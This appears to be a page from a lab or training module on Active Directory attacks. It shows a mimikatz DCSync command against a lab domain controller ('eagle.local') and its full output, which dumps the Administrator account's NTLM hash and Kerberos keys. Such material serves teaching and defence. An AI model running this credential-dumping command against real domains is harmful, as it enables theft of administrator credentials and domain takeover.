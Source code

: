   Attack

```powershell-session
.\mimikatz_trunk\x64\mimikatz.exe "lsadump::dcsync /user:Administrator" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /user:Administrator
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 01/01/1601 01.00.00
Password last change : 07/08/2022 20.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8


mimikatz(commandline) # exit
Bye!
```
